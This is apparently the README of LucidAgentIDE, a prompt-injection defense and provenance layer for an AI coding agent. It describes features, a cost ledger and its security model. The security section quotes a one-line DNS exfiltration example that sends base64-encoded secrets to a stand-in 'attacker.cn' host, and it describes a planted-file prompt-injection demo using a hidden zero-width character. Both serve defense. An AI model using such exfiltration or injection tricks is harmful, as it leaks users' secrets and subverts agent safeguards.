


<!--
  SEO / discovery metadata. GitHub renders this block invisibly; search engines, raw-file
  crawlers, and AI agents that read README.md pick it up. Repo TOPICS (set in repo settings)
  are the strongest GitHub-search signal - mirror these keywords there too.

  LucidAgentIDE - a fail-closed security, provenance, and memory layer around oh-my-pi (omp).
  Topics: ai-agent-security, prompt-injection-defense, llm-security, agent-observability,
  provenance, duckdb, kv-cache, prompt-caching, asksage, government-ai, cui, fips,
  personalization-knowledge-graph, ai-code-attribution, cost-showback, chatgpt-import,
  monaco, electron, bun, typescript, oh-my-pi, omp, agentic-coding, secure-ai-coding-assistant.
-->
<meta name="description" content="LucidAgentIDE - a fail-closed security, provenance, and memory layer around oh-my-pi (omp): prompt-injection defense, trust labeling, provenance-backed memory, sovereignty-aware model governance, AI-authorship attribution, one-command ChatGPT/Claude/Gemini migration, cross-model cost showback, and a read-write IDE where even Save is scanned." />
<meta name="keywords" content="AI agent security, prompt injection defense, fail-closed gate, Unicode scanner, LLM provenance, agent observability, DuckDB telemetry, KV-cache prompt optimization, prompt caching, AskSage government AI gateway, CUI, FIPS, personalization knowledge graph, AI code attribution, AI-authored lines of code, cross-model cost showback, ChatGPT import, Claude, Gemini, Monaco editor, Electron, Bun, TypeScript, oh-my-pi, omp, agentic coding, secure AI coding assistant, agent IDE" />
<meta name="robots" content="index, follow, max-image-preview:large" />
<meta name="googlebot" content="index, follow" />
<meta name="author" content="Nick Chadwick (TechLead187)" />

<div align="center">


<br/>


<br/>

<a href="https://github.com/mlcyclops/lucidagentide/actions/workflows/ci.yml"></a>
<a href="https://github.com/mlcyclops/lucidagentide/actions/workflows/codeql.yml"></a>
<a href="https://github.com/mlcyclops/lucidagentide/actions/workflows/build-desktop.yml"></a>
<a href="https://github.com/mlcyclops/lucidagentide/actions/workflows/build-desktop.yml"></a>
<a href="https://github.com/mlcyclops/lucidagentide/actions/workflows/build-desktop.yml"></a>


<br/>

<a href="https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgentIDE-Setup.exe"></a>
<a href="https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgentIDE-mac-arm64.pkg"></a>
<a href="https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgentIDE-mac-x64.pkg"></a>
<a href="https://github.com/mlcyclops/lucidagentide/releases/latest/download/LucidAgentIDE-x86_64.AppImage"></a>
<a href="https://github.com/mlcyclops/lucidagentide/releases/latest"></a>

<sub>⬆ Always the most recent successful release - links auto-update each version (no release yet? they appear after the first tagged build).</sub>

<br/>


<br/>

**A security · provenance · memory layer built _around_ <a href="https://omp.sh">oh-my-pi</a> - not a fork.**
A fail-closed prompt-injection gate, provenance-backed memory, **sovereignty-aware model governance**,
**AI-authorship attribution**, **one-command migration from ChatGPT**, and a **read-write IDE where even
_Save_ is scanned** - wrapped in a polished desktop app, added entirely through omp's hooks, custom tools,
and SDK.

<sub>🔒 <b>What it does is open; how the hard parts work is not.</b> The deepest trust, provenance, and
personalization internals are proprietary and intentionally undocumented here - this README describes the
<i>capabilities and guarantees</i>, not the mechanisms behind them.</sub>

<a href="#-who-its-for"><b>Who it's for</b></a> ·
<a href="#-quick-start"><b>Quick start</b></a> ·
<a href="#-security-model"><b>Security</b></a> ·
<a href="#-token-cost-savings--showback"><b>Cost Savings</b></a> ·
<a href="#-knowledge--rag"><b>Knowledge / RAG</b></a> ·
<a href="#-contributing"><b>Contributing</b></a> ·
<a href="#-roadmap"><b>Roadmap</b></a> ·
<a href="DECISIONS.md"><b>Decisions (ADRs)</b></a>

<br/>

<!-- ✦✦✦  HEADLINE BANNER - Claude Fable 5  ✦✦✦ -->
<table align="center" width="100%">
<tr>
<td align="center">

# ✦ Claude&nbsp;5.0&nbsp;**Fable** is here - available through LUCID ✦

### The newest Claude model, <b>Claude&nbsp;Fable&nbsp;5</b> (<code>claude-fable-5</code>), is live in the model picker.

<p align="center"><b>Connect a Claude account</b> (OAuth or <code>ANTHROPIC_API_KEY</code>) and pick <b>Claude&nbsp;Fable&nbsp;5</b> from the model list - that's it. It routes through Anthropic and carries a clear <b>U.S.-government data-privacy notice</b> so you always know where your chat history stands.</p>

</td>
</tr>
</table>

<br/>

<h3 align="center">🌐 Also new - your agent is online out of the box, and every tool call works</h3>

<p align="center"><b>“Allow all websites + local LAN” is pre-checked</b>, so a fresh agent can browse and search the web immediately - while the curated, trust-scoped whitelist is one toggle away whenever you want to lock it down (it still asks before a public IP or a foreign-country site).</p>

</div>

---

## 💰 Token Cost Savings & Showback

<div align="center">

<table><tr><td>

> **Real-time cost visibility across every model and session.**
>
> LucidAgentIDE's **Cost & Savings Ledger** (P10.2 · [ADR-0011](DECISIONS.md)) tracks token usage,
> estimated cache savings, and per-model cost breakdowns - giving you full showback visibility over
> your AI spend. No surprises, no black-box billing.

<br/>

| Metric | Value |
|:--|--:|
| **Total Spend (all models)** | **$493.21** |
| **Est. Cache Savings** | **$3,190.65** *(87% off full price)* |
| **Cache Hit-Rate** | **97%** |
| **Tokens Processed** | **419.22M** across 4,049 turns |
| **Models Used** | **13** across 1,319 sessions |
| **Workspace Activity (July 2026)** | **+26.6k / -520** lines across 187 files |

<br/>

**Per-model breakdown** *(top model · 12 more in the ledger):*

| Model | Turns | Tokens | Cost | Saved | Cache % |
|:--|--:|--:|--:|--:|--:|
| claude-fable-5 | 662 | 314.63M | $398.85 | $2,789.31 | **99%** |

</td></tr></table>

<table>
<tr>
<td align="center" valign="top">

<br/>
<sub><b>↑ Cost &amp; Savings Ledger</b> - spend, cache savings, and cost per model, live</sub>
</td>
<td align="center" valign="top">

<br/>
<sub><b>↑ AI-authored Code Ledger</b> - which model wrote which lines, by repo &amp; identity</sub>
</td>
</tr>
</table>

</div>

<br/>

**Key capabilities:**

- 📊 **Cross-model cost ledger** - unified spend view across Claude, GPT, Gemini, and all AskSage-routed models
- 💵 **Estimated cache savings** - see how much the KV-cache-optimized prompt prefix saves you in real dollars
- 📈 **Cache hit-rate tracking** - per-model cache efficiency metrics updated in real time
- 🔍 **Per-session drill-down** - break costs down by model, turn count, and token volume
- 🏷️ **Showback-ready** - built for teams that need to attribute AI costs to projects or users
- 🪪 **AI-authored code ledger** - a tamper-evident count of *which model wrote which lines*, per repo and identity (authorship attribution, not just git activity)

> **🏛️ Enterprise rollups (premium, coming soon).** A separately-licensed add-on rolls this showback
> up into executive **BI dashboards** - Power BI (GCC-High), QuickSight, Looker, SharePoint, or an
> airgap-friendly single-file HTML view - and adds **loop-efficiency and ROI** reporting per model and
> per program: cost-per-outcome, productivity, and security posture in one pane for the CFO / CIO / CISO.
> Read-only and **metadata-only** by construction (no code, prompts, or CUI leave the host); the
> analytics methodology is proprietary.

> **🛡️ Central policy & SIEM audit (premium, coming soon).** The same per-action safety the app enforces
> locally - the exec-approval gate and the loop's Speed↔Risk dial - becomes **centrally governable** by an
> org admin through the tools you already run (**Group Policy / Intune / Jamf / Ansible**): set and **lock**
> the risk posture fleet-wide, and stream a **metadata-only security-audit feed** to your **SIEM**
> (Splunk, Elastic, ACAS, and AWS / Azure / GCP security logging) for SOC visibility. The enabling seams
> are in this source-available core (managed-config + an audit-export interface); the policy templates and SIEM
> connectors are a separately-licensed add-on. Metadata-only by construction - no code, prompts, or CUI
> leave the host.

---

## ✨ What's new in v1.10.6

> The agent turn, redesigned - and a Model-Evaluation suite that scores the work honestly.

- **💬 A settled turn you can actually read** - when the agent finishes, a long answer folds into
  **collapsible sections** on the model's own headings, and each tool call threads back inline as a
  compact **chip** (with a **+/- diffstat** and a code drilldown) *where it fired* - but only when a
  chip genuinely lands between paragraphs. On a short, flat answer the rich **activity window** stays
  put instead: every tool step, its diffstat, its written code, and the **expanded subagent detail**
  (each delegate's thinking/tools/output). *(ADR-0188/0189)*
- **📊 Model-Evaluation reports** - a settled turn that **wrote code** offers a thin, subdued
  **"Generate engineering report"**: per-run efficiency/quality metrics with **honesty tiers**
  (`direct` / `proxy` / `needs_signal` - a missing signal is `null`, never a fake 0), plus a
  **cross-run rollup** in the Reports panel (per-model means + per-model **API-latency p50/p95**).
  It only appears when there's written work to evaluate. *(ADR-0190)*
- **⏳ Patience for overloaded providers** - when a model goes quiet under load, the turn now waits up
  to **10 minutes** with an honest **"still waiting on the provider"** notice at each silent 2-minute
  mark - no more a 5-minute cutoff that falsely blamed "2 minutes". *(ADR-0186)*
- **🎲 Trivia Wire, opt-in + fresh** - the ticker now **defaults off** (an easter egg you switch on in
  Settings), and can **AI-regenerate** a role-relevant question pack on your selected model from opt-in
  on-device context - scanned fail-closed, tool-free, falling back to the built-in pack. *(ADR-0191)*

Under the hood: the eval suite persists per-run metrics + per-model latency to frozen DuckDB tables
via the same read-only-safe JSONL-sink pattern as the rest of the observer store.

---

## ✨ What's new in v1.10.5

> Quality of life everywhere you look: watch your subagents think, graphs that open settled and
> centered, a machine-aware guard for the heavy builds, and a trivia wire for the wait.

- **🔬 Live subagent activity** - the delegation card now opens up: one row per subagent with a live
  "now" line and tool count, each expandable into its actual trail - thinking, tool calls (with the
  model's own intent notes), and output - refreshing while it works. *(ADR-0180)*
- **🧭 Graphs form in place** - a knowledge or code graph with hundreds of nodes opens already settled,
  centered, and still: the layout computes off-screen before the first paint, live updates nestle in
  silently, and resizing the panel never shakes the canvas. Drag is the only thing that still moves.
  *(ADR-0183)*
- **🩺 System resource guard** - on a weak processor under heavy CPU/RAM load, the CPU-spike features
  (the KG render and the Code Graph ingest) pause behind a notice that lists the top resource-hungry
  processes to close, with a one-click re-check. Fail-open by design: a missing profile never blocks
  a feature. *(ADR-0182)*
- **🖥️ Electron preview, explained and runnable** - previewing an Electron app used to show a silent
  white pane; now LUCID explains why and offers a user-clicked "Run with Electron" that launches the
  real app outside LUCID (detached, audited as an exec event). *(ADR-0179)*
- **🗞️ Trivia Wire** - a role-aware trivia ticker in the status bar's idle gap: developer, security
  (CMMC/RMF), manager (CMMI-DEV), and executive banks - and the executive wire interleaves live
  Intelligence/Defense-sector headlines, scanned and sanitized like everything else. *(ADR-0174-0176)*
- **🧹 A calmer KG header** - the stacked Relate / Code graph / Compiled KB buttons are now one labeled
  dropdown, and the title is a compact "KG". *(ADR-0184)*
- **🛒 Marketplace curated for fit** - off-fit entries retired; **Mermaid**, **Gitleaks**, **Semgrep**,
  **Trivy**, and **Pandoc** join as planned integrations. *(ADR-0181)*
- **📦 Boot robustness** - the v1.10.2/v1.10.3 packaging regressions are fixed and guarded by a test
  that boots a real filtered install, and the desktop shell now writes an `engine.log` for
  supportability. *(ADR-0177/0178)*

---

## ✨ What's new in v1.10.0

> The biggest batch since 1.9 - run **local models**, a multimodal agent that **reviews its own UI**, native
> **Figma** import, an **Agent Builder**, and a **security firewall** for remote agents. (v1.9.2 also shipped a
> battery-aware performance epic - calmer knowledge-graph rendering and faster switches on battery.)

- **🖥️ Local & hybrid providers** - point LUCID at a **self-hosted or custom LLM** (Ollama · llama.cpp · vLLM ·
  any OpenAI-compatible endpoint), including a private box reached **over a VPN**. Run U.S. open-weight model
  families like **Gemma**, **Llama**, **gpt-oss**, and **Phi** entirely on your own hardware. Keys live in the
  **OS-encrypted vault** and never reach the renderer or the agent; add, key, and test each one from a
  Settings card. *(ADR-0135)*
- **🖼️ Multimodal prompts** - **paste or drop a screenshot** straight into the prompt bar; it shows as a thumbnail
  above the composer and travels to the model as an image **only when you hit send** - no auto-push. *(ADR-0136)*
- **👁️ The agent reviews & tests its work live** - as it screenshots, reads the DOM, and **clicks / types** in the
  in-app Preview to verify its UI, the panel **glows** and a **"testing" pill** shows you exactly what it's doing -
  all over a sandboxed postMessage bridge (no eval, egress stays blocked). *(ADR-0153)*
- **🎨 DESIGN.md + native Figma** - a project **`DESIGN.md`** is honored every turn like `CLAUDE.md`; **`/figma`**
  imports a design into the Preview (token in the vault, used server-side only), then the agent **reviews it** or
  **builds a DESIGN.md** from it for you to edit in the IDE. *(ADR-0154)*
- **🤖 Agent Builder** - **describe an agent and LUCID builds it**: an allow-list chip editor, live per-turn canvas
  collaboration, portable **share / import** with credential provisioning, **n8n** interop, and your own saved
  **`/command`s**. *(ADR-0137-0146)*
- **🧯 Agent Firewall** - reach remote **hermes / openclaw** agent runtimes through a **fail-closed security proxy**
  that scans both directions (blocks injected instructions outbound, quarantines + delimits replies inbound), with
  per-connection permission policy - plus an in-process gate for **every MCP tool result**. *(ADR-0147-0152)*
- **⌨️ Neovim & terminal** - drive LUCID from **Neovim** and the terminal, not just the desktop app. *(ADR-0150/0151)*

---

## Table of contents

- [ Overview](#-overview)
- [ What makes it novel](#-what-makes-it-novel)
- [ Any model, any provider](#-any-model-any-provider)
- [🎯 Who it's for](#-who-its-for)
- [🏢 Where LUCID fits + the enterprise add-on tier](#-where-lucid-fits--the-enterprise-add-on-tier)
- [💰 Token Cost Savings & Showback](#-token-cost-savings--showback)
- [ Architecture](#-architecture)
- [ Security model](#-security-model)
- [ Memory and the personalization graph](#-memory-and-the-personalization-graph)
- [ Models and the AskSage gateway](#-models-and-the-asksage-gateway)
- [📚 Knowledge & RAG](#-knowledge--rag)
- [ Built on](#-built-on)
- [ Quick start](#-quick-start)
- [ Desktop app](#-desktop-app)
- [ Onboarding](#-onboarding)
- [🤝 Contributing](#-contributing)
- [ Roadmap](#-roadmap)
- [ Project docs](#-project-docs)

---

##  Overview

**LucidAgentIDE** wraps [oh-my-pi (omp)](https://omp.sh) - a fast agentic coding runtime that provides
tool-calling, model routing, sessions, sandboxing, and a TUI - with the security/provenance/memory layer
from the project's v3 PRD. The wrapper rides omp's hundreds of releases instead of forking it: everything
is added through **hooks, custom tools, and the SDK**.

The whole system enforces one lifecycle, end to end:

> untrusted text enters → **scanned** → **trust-labeled** → **sanitized** → **persisted with provenance**
> → **blocked at the tool / memory-promotion / dispatch boundaries** → **human-reviewed** → and exits only
> as **safe, audited evidence** - with provenance-tracked recursive runs, replay, and a KV-cache-optimized
> prompt prefix proven by benchmark.

The architecture in one line: **TypeScript on Bun, in-process with omp.** The *only* Python is the pure
Unicode `scanner-sidecar/`, behind a narrow NDJSON contract, so the fail-closed gate that consumes it can
never fail open.

<div align="center">

|  Security |  Provenance |  Memory |
|:--|:--|:--|
| Unicode scanner + fail-closed quarantine gate, in-process on every tool call | Stable IDs, trust labels, and a DuckDB audit trail for every run, finding & approval | Promotion-gated semantic memory **+ a shipped, encrypted, cross-session personalization graph** |

</div>

##  What makes it novel

Thirteen things you rarely find together. Each is in plain language below - the deeper "how" stays proprietary.

| What's novel | What it means for you |
|:--|:--|
| 🛡️ **Security *around* a moving target** | The injection defense lives in omp's extensions, so it upgrades with omp - no fork, no merge debt. |
| 🔒 **A gate that cannot fail open** | If the scanner dies or returns garbage, the gate **blocks** (never "safe"). A test kills it mid-run and the block still holds. |
| 🧱 **Runtime containment, not just approval** | Even after `bash` is approved, the process runs **OS-isolated** (Linux bwrap · macOS Seatbelt today; Windows AppContainer planned for enterprise) and its network is **mediated** - a package that phones home over a DNS lookup at import time is **refused and audited**, while `pip install` still works. |
| 🧬 **Provenance-gated memory** | Suspicious or quarantined content can **never auto-save** into memory. Trust comes from the source, not the caller's word. |
| 🧊 **A cache-stable prompt** | The safety layers are byte-identical on every request. Untrusted text only ever enters **delimited** and **after** the cache point - faster *and* safer. |
| 🏛️ **A gov-grade gateway, gated** | [AskSage](https://asksage.ai) is wired in with a lockdown mode, **scanned** personas, and answers grounded on your own datasets, with citations. |
| 🧠 **An encrypted personalization graph** | A private, encrypted "second brain" the agent learns from you and **recalls across sessions** - CUI-isolated and exportable. *(Shipped.)* |
| 🪪 **AI-authorship attribution** | A tamper-evident ledger of **which model wrote which lines** - per repo, per person, per session. |
| 🌐 **Sovereignty-aware governance** | Gov-only lockdown, curated model lists, and a clear **warning wall** before any foreign-origin model is used. |
| ⬇️ **One-command migration** | Bring your **ChatGPT / Claude / Gemini** history in - every message scanned, then distilled into your private graph. |
| ✍️ **An IDE where _Save_ is scanned** | Edit and save through the **same** gate. A hidden-Unicode payload is blocked **before a byte lands on disk**. |
| 🔁 **Loop engineering, not just a loop** | `/goal` runs an agent to a **verified** finish - with a budget kill switch, stall guards, and an after-action report. |
| 💰 **Cost tracking & showback** | Live per-model spend and cache savings - know exactly what every conversation costs. |

<sub>Loop engineering is inspired by the [loop-engineering](https://github.com/cobusgreyling/loop-engineering) playbook. Every action above still passes the same fail-closed gate.</sub>

---

##  Any model, any provider

**Bring whatever you already pay for.** LUCID doesn't lock you to one vendor - it exposes the model
catalog from the open agent runtime (oh-my-pi) and lets you authenticate **either way**:

- **Sign in with your subscription plan (OAuth).** Use your existing **Claude Pro / Max**, **ChatGPT
  Plus / Pro**, or **Google Gemini** login - no API key, no per-token bill. omp's secure credential vault
  owns the tokens.
- **Or paste an API key (metered).** Pay-as-you-go usage straight from the provider, with the real
  remaining rate limit read from response headers.

Every model in the picker carries a **cost + intelligence card** (token-expense and capability stars, best-use,
context window) so you can pick the right tier at a glance - and the security gate scans every turn the same
way, whichever model you choose.

<div align="center">
<br/>

<br/>
<sub><b>↑ The model picker</b> - 47 models across every connected provider, each with a premium cost + intelligence hover card. Search, then pick by capability and price.</sub>
</div>

### Providers LUCID supports today

| Tier | Providers | Auth |
| --- | --- | --- |
| **U.S. frontier** | **Anthropic** (Claude), **OpenAI** (ChatGPT), **Google** (Gemini), **xAI** (Grok), **Perplexity** (Sonar) | OAuth subscription **or** API key |
| **Government gateway** | **AskSage** - accredited proxy to Claude, GPT, and Gemini inside GovCloud, with scanned personas + dataset-grounded RAG | API key |
| **Local / self-hosted** | **Ollama**, **llama.cpp**, **vLLM**, or any OpenAI-compatible endpoint (incl. one reached over a VPN) - run U.S. open-weight model families like **Gemma**, **Llama**, **gpt-oss**, and **Phi** on your own hardware, fully offline | None, or your endpoint's key (OS-encrypted vault) |
| **More providers** _(third-party / non-U.S. / custom, behind an acknowledgement)_ | **OpenRouter**, **DeepSeek**, **Moonshot / Kimi**, **Groq** | API key |

<sub>The catalog is **driven by omp** - as the runtime adds providers and models in future builds, they appear
in the picker automatically. Non-U.S. / restricted-origin models stay hidden behind a data-sovereignty
acknowledgement, and an enterprise policy can pin the org to the gov gateway only.</sub>

---

## 🎯 Who it's for

| If you are… | Why it matters here |
|:--|:--|
| **Government / regulated / CUI teams** | An AskSage-gated, **sovereignty-aware** agent with hard **CUI isolation**, a fail-closed gate, and a full provenance/audit trail - packaged for **locked-down, air-gapped laptops** with *zero prerequisites* (Bun + the Python sidecar are bundled). |
| **Security-conscious engineers** | Every tool call, **every _Save_**, every persona, and every imported message is scanned by a gate that **cannot fail open**. Prompt-injection defense is the default, not a toggle. |
| **Teams that need governance & showback** | Real **cost per model** with cache-savings showback, plus a tamper-evident ledger of **which model wrote which lines** - so AI spend and AI authorship are both auditable. |
| **Anyone leaving ChatGPT / Claude / Gemini** | **One-command import** brings your history in (gated + distilled into an encrypted personal graph) and keeps your context **across sessions**. |
| **Agent-platform builders** | A worked, test-backed example of adding security, provenance, and memory **around** a fast runtime via hooks/tools/SDK - **extend, never fork**. |

It's a **desktop app you can just download and run** (Windows installer/portable + macOS), and a **source-available codebase** you can study, run from source, and build on. Each role gets a tailored first view plus a written, end-to-end **[role guide](docs/guides/README.md)** (Developer / Security / Manager / Executive).

---

## 🏢 Where LUCID fits + the enterprise add-on tier

LUCID sits in the emerging **secure / sovereign agentic IDE** segment - between the general, cloud-first
AI coding assistants and the assurance that regulated, government, and defense buyers actually require.
The wedge is the part those tools treat as an afterthought: a **fail-closed security gate on every tool
call**, **provenance + AI-authorship attribution**, **air-gappable local models + RAG**, **CUI
isolation**, an **OCSF audit-export** seam, **GPO/MDM enterprise governance**, and the **AskSage
accredited gateway**. A short public write-up of that positioning lives in
**[docs/MARKET-POSITIONING.md](docs/MARKET-POSITIONING.md)**.

**The add-on tier** (a separate, enterprise repository) extends the open core with the reporting and
integration surface larger organizations ask for - hinted here at a high level, not detailed:

- **Executive reporting metrics, per platform** - efficiency / reliability / quality / cost rolled up
  per model **and per deployment**, with weekly/monthly latency dashboards. *(The public core already
  ships the honesty-tiered metric engine + the per-model rollup - v1.10.6, P-EVAL; the add-on adds the
  multi-platform executive view. ADR-A016.)*
- **Showback → chargeback** - the public **Cost & Savings Ledger** deepened into department / project
  chargeback rollups.
- **Agent-development-kit bridges** - export a LUCID agent to **Google ADK · AWS Strands · Azure AI
  Foundry** runtimes. *(ADR-A013.)*
- **Market & competitive analysis** - full segment sizing, a competitive matrix, and a maintained
  **positioning graphic** (the quantitative half of the public write-up above), kept for enterprise
  engagements.

> The open core is fully functional on its own. The add-on tier is optional and enterprise-facing -
> nothing in this repository depends on it.

---

##  Architecture

```text
harness/                  # ALL TypeScript (Bun)
  contracts.ts              # FROZEN: TrustLabel · AgentMode · EventName · ToolResult · Finding
  security/                 # scanner_client (NDJSON, fail-closed) · gate (scanAndDecide)
  memory/                   # DuckDB store · promotion gate (keystone #2) · cross-session recall · migrations 0001-0009
  personal/                 # encrypted personalization graph · distiller · CUI isolation · ChatGPT/Claude/Gemini import
  telemetry/                # stable-id event stream → DuckDB (replayable)
  runs/                     # provenance lineage · sandbox profiles · runtime execution boundary (sandbox_exec · egress_proxy) · replay
  export/                   # safe_export: escaped, sanitized-only by default
  prompt/                   # the frozen prefix + delimited untrusted tail (assembler)
  omp/                      # security_extension (the in-process gate) · asksage_extension (provider)
scanner-sidecar/          # the ONLY Python (uv-managed): pure Unicode scanner + tests
desktop/                  # Electron shell + Bun dev server (chat + live dashboards)
observable/               # P10 observability: activity HUD, context windows, cost ledger
.github/                  # CI (desktop installer build) + brand assets
```

Trust boundary, layered: the **frozen prefix** (identity → tool policy → coding rules → security policy) is
cached; everything volatile - instruction files, *delimited* retrieved content, the task, session state,
working memory - lives in the **tail after the cache breakpoint**. Untrusted bytes never touch the prefix.

##  Security model

| Stage | Mechanism | Guarantee |
|:--|:--|:--|
| **Scan** | `scanner-sidecar/` (pure Unicode) behind NDJSON | finds zero-width, bidi, tag-block, homoglyph, PUA, `Cf` |
| **Decide** | `gate.ts` → `scanAndDecide` | any scan failure ⇒ **block / quarantine** (never "safe") |
| **Gate** | `harness/omp/security_extension.ts` (omp pre-hook) | runs **in-process** on every tool call |
| **Contain** | `harness/runs/sandbox_exec.ts` (bwrap · Seatbelt; Windows AppContainer = enterprise) + `egress_proxy.ts` | an approved process runs **runtime-isolated**; subprocess DNS/CONNECT is **mediated + audited** (fail-closed) |
| **Label** | closed set `trusted · untrusted · suspicious · quarantined` | no other values exist |
| **Promote** | `promotion_gate.ts` | suspicious/quarantined sources can't enter semantic memory |
| **Export** | `safe_export.ts` | invisibles escaped to `\u{..}`; raw referenced by `sha256`, never inline |

Try it live - a planted file hides a zero-width character in a shell command; the agent reads it, tries to
run it, and the gate blocks the `bash` call:

```
🛡️  [LucidAgentIDE] [BLOCKED tool_call:bash] source=bash trust=quarantined severity=high findings=zero-width
```

The gate that blocks here is the exact one the test suite proves - see [`CLAUDE.md`](CLAUDE.md) for the
load-bearing invariants (fail-closed, extend-don't-fork, frozen contracts, byte-stable prefix).

**Runtime execution boundary (ADR-0157).** Every control above acts on *text, before a process runs*. But
once `bash` / `pip` / `python` is approved and executing, a malicious dependency can still phone home at
**import time** - the classic trick is a package whose `__init__.py` does `socket.gethostbyname("<base64-secrets>.attacker.cn")`,
exfiltrating over a DNS lookup that no argv classifier can catch. LUCID closes that hole *beneath* the gate:
an approved process is **OS-isolated** (Linux **bubblewrap** · macOS **Seatbelt**, picked per platform; where
none is available LUCID says so out loud and the org can require isolation to **fail-closed** instead), and
its network is not raw but **mediated** - every subprocess DNS query and CONNECT is routed through a loopback
proxy and decided by the **same** curated egress policy your browser tools already use. So a lookup to a
non-whitelisted or foreign-country host is **refused and audited** (a metadata-only `egress` event to your
SIEM), while `pip install requests` still resolves and works. The whole posture - which backend is active,
whether egress is mediated, and every reach-out the proxy refused - is visible in the Security panel.
*(Linux + macOS enforce today. Fail-closed by construction: no isolating backend under managed policy ⇒
exec is blocked, never silently un-isolated.)*

> **🏛️ Windows runtime containment (planned, enterprise).** A native **Windows AppContainer** backend is
> built and verified for the network-off case (an empty-capability AppContainer has no outbound network at
> all). But **mediated** egress - letting a contained process reach only the loopback proxy while the rest of
> the internet stays blocked - requires a one-time **administrator** loopback exemption at install
> (`CheckNetIsolation`), so full Windows runtime containment ships as a **managed / enterprise** capability
> rather than a standard-install default. Until then, Windows uses the disclosed passthrough for
> network-capable sessions - the argv gate + in-process scanner still apply on every OS.

**Network whitelist + credential vault (ADR-0106).** Beyond the ad-hoc "always allow this site" the per-site
egress gate remembers, Settings → **Network Whitelist** lets you curate an allow-list up front: domain patterns
(`*.com` TLD or exact `api.example.com`) and IP/CIDR ranges, split by **internal (intranet)** vs **external
(internet)** zone, each with an **enforced** trust scope - `always` (every session), `project` (only in that
workspace), or this-`loop` (only during a `/goal` run) - and an optional **per-loop call budget** that caps how
many times a host auto-allows before falling back to the gate. A match **auto-allows** the agent's network calls
to that host - but always *under* your organization's managed policy ceiling, so a managed-denied host is never
granted (tighten-only, fail-closed). You can also **click a DNS pill** in the Network-diagnostics panel to
whitelist a host the agent just resolved. For sites that need auth, attach a credential
(JWT/OAuth/SAML/PEM/API-key/username+password) by pasting it or uploading a file; the secret is stored
**OS-encrypted** (Windows DPAPI / macOS Keychain / Linux libsecret) and the whitelist keeps only a reference,
shown masked as `••••XXXX` (last-4 only) so you can tell keys apart without revealing them - if the OS keystore
is unavailable the store is *refused*, never written in plaintext. Each key shows its **rotation status**
(rotated Nd ago / rotation due / expired) with an optional "rotate every N days" reminder, and a one-click
**Rotate** replaces the secret in place (same reference, fail-closed). Enterprise key management (cloud-KMS custody
across AWS/Azure/GCP/Oracle/IBM, automated rotation, attestation) is a private add-on
([ADR-0107](DECISIONS.md) draws the public/private line).

<div align="center">

<br><sub>Network Whitelist - scoped, budgeted, credential-aware egress allow-list (last-4 masking + rotation). <em>Screenshot placeholder.</em></sub>
</div>

##  Memory and the personalization graph

**Two memories, both shipped.**

First, a [DuckDB](https://duckdb.org) store holds the agent's working state and a **promotion-gated** semantic
graph. Every fact carries its provenance and a trust label, and poisoned content is blocked from ever being
saved.

On top of that sits a private **personalization knowledge graph** - a "second brain" of your preferences,
decisions, and interests that the agent learns, **recalls across sessions**, and uses to tailor its replies.
You can seed it in minutes by importing a ChatGPT / Claude / Gemini history.

- 🔐 **Encrypted and local-first.** A dedicated **AES-256-GCM** store, with the key sealed by your OS keystore (passphrase fallback). Opt-in.
- 🕸️ **Inspectable.** An interactive node/edge graph you can drill into - and export to an [Obsidian](https://obsidian.md) vault.
- 🏛️ **Honest about FIPS.** FIPS-*approved* algorithms plus OS-keystore key custody. True 140-3 validation is an OS concern, so the app never claims a FIPS *mode* it can't self-certify.

<div align="center">
<br/>

<br/>
<sub><b>↑ Your personalization knowledge graph</b> - imported from a ChatGPT / Claude / Gemini history; click a node to see its facts (trust label + confidence), relationships, and forget/relate controls. Search to find a node; drag to relate. Private, AES-256-GCM encrypted, opt-in.</sub>
</div>

##  Models and the AskSage gateway

Models from any omp provider work out of the box (Claude, GPT, Gemini, …). On top of that, the
